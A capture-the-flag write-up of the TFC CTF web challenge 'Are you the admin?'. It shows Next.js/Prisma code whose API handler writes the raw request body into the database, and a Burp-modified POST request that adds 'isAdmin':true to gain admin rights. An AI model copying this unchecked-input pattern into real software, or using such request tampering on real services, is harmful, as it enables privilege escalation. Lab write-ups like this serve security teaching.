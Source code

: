 # TFC CTF

## WEB

### ARE YOU THE ADMIN?

**Difficulty:** Easy

**Statement:** Do you have what it takes to be the admin?

***

The challenge provides us with the following source code : `index.tsx`

```tsx
import type { GetServerSideProps, NextPage } from "next";
import type { User } from "@prisma/client";
import { prisma } from "../globals/prisma";
import { useState } from "react";
import { useRouter } from "next/router";

type Props = {
  users: (User &
    (
      | {
          flag: string;
          isAdmin: true;
        }
      | {
          flag?: never;
          isAdmin: false;
        }
    ))[];
};

const Home: NextPage<Props> = ({ users }) => {
  const [username, setUsername] = useState("");

  const router = useRouter();

  const create = async () => {
    await fetch("/api/auth", {
      headers: {
        "Content-Type": "application/json",
      },
      method: "POST",
      body: JSON.stringify({
        username,
      }),
    });
    await router.replace(router.asPath);
  };

  return (
    <div>
      <div>Create user:</div>
      <input
        value={username}
        onChange={(event) => setUsername(event.target.value)}
      />
      <button onClick={create}>Create</button>
      <div>Users:</div>
      {users.map((user) => (
        <div key={user.id}>
          <div>Username: {user.username}</div>
          <div>Is admin? {user.isAdmin ? "yes" : "no"}</div>
          {user.isAdmin && <div>{user.flag}</div>}
        </div>
      ))}
    </div>
  );
};

export default Home;

export const getServerSideProps: GetServerSideProps<Props> = async (
  context
) => {
  const users = (await prisma.user.findMany()) as Props["users"];

  for (const user of users) {
    if (user.isAdmin) {
      user.flag = process.env.FLAG!;
    }
  }

  return {
    props: {
      users,
    },
  };
};
```

The file `auth.ts`:
```ts
import { NextApiRequest, NextApiResponse } from "next";
import { prisma } from "../../globals/prisma";

export default async function handler(
  req: NextApiRequest,
  res: NextApiResponse
) {
  const body = req.body;
  await prisma.user.create({
    data: body,
  });
  return res.status(200).end();
```

And the file `schema.prisma`:
```prisma
generator client {
  provider = "prisma-client-js"
}

datasource db {
  provider = "sqlite"
  url      = "file:./app.db"
}

model User {
  id       String  @id @default(uuid())
  username String
  isAdmin  Boolean @default(false)
}
```

Thanks to the source code made available, we can see that it is possible to add the value `isAdmin` with the value `true` in order to authenticate with administrator rights.

When visiting the website and creating a user, the following information is returned:

![image](https://user-images.githubusercontent.com/49941629/182031138-28323457-4a7c-4c20-890c-2ad70b254c66.png)

With the Burp Suite tool, I will modify the POST request to add `isAdmin` value for get the flag!

Default POST request:

```
POST /api/auth HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49374
Content-Length: 23
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49374
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49374/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"username":"Sanlokii"}
```

Modified POST request:

```
POST /api/auth HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49374
Content-Length: 23
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49374
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49374/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"username":"Sanlokii","isAdmin":true}
```

The website get back :

![image](https://user-images.githubusercontent.com/49941629/182031839-013d5fe2-da5f-42e3-9a4e-9beba9a4e190.png)

Flag: TFCCTF{S4n1t1z3_Y0ur_1nput5!}
